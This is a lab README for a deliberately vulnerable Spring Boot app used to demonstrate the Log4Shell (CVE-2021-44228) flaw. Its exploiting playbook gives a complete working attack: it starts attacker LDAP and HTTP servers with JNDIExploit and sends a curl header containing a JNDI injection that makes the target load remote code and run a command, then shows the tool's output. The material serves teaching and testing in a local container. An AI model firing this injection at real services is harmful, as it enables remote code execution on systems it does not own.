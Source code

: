 # Vulnerable application

This repository contains a Spring Boot web application vulnerable to `CVE-2021-44228`, known as [log4shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses 
* `log-4j-core:2.14.1` (through `spring-boot-starter-log4j2`) and
* `openjdk:8u181`

## Running the application

Run it:

```bash
docker run --name vulnerable-app --rm -p 8080:8080 romanutti/log4shell-vulnerable-app
```

Or alternatively, build it yourself:

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

## Exploiting playbook

Using the following steps you can reproduce a log4shell exploit. 
If you are not familiar with how the attack works under the hood check out this [article](https://learn.snyk.io/lessons/log4shell/java/) or the [slides](https://github.com/romanutti/log4shell-vulnerable-app/blob/main/doc/log4shell.pdf) in this repo.

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). I therefore recommend you to used the saved version from this repository.*

### Setup attacker servers
First we have to setup the attacker servers. This consist of
* a **LDAP server** that will redirect us to our malicious HTTP server
* a **HTTP server** that will return the harmful payload

We use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up the attacker servers.

```bash
git clone https://github.com/romanutti/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app/src/main/resources
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i [your-private-ip] -p 8888
```

### Triggering the exploit
As payload we want to execute `touch /tmp/pwned` (which corresponds to the base64-encoded `dG91Y2ggL3RtcC9wd25lZAo=`) on the vulnerable applications server.

Trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl localhost:8080 -H 'user: ${jndi:ldap://[your-private-ip]:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

The output of JNDIExploit shows that the attacker servers responded with the malicious exploit and executed the payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://[your-private-ip]:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /[your-private-ip]:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

To confirm that the code execution was successful, we check that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp

...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/  
https://github.com/christophetd/log4shell-vulnerable-app/
